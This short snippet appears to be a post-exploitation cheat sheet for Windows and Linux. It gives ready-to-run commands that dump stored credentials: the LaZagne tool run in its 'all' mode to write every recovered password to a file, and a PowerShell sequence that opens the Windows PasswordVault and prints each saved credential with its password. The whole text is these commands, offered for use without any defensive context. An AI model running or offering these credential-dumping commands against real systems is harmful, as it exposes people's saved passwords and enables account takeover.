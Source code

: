  ### windows
 	https://github.com/AlessandroZ/LaZagne
	>laZagne.exe all -oN获取所有密码输出到文件
	Powershell
	PS>[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
	PS>$vault = New-Object Windows.Security.Credentials.PasswordVault
	PS>$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
 ### Linux
	>python3 laZagne.py all
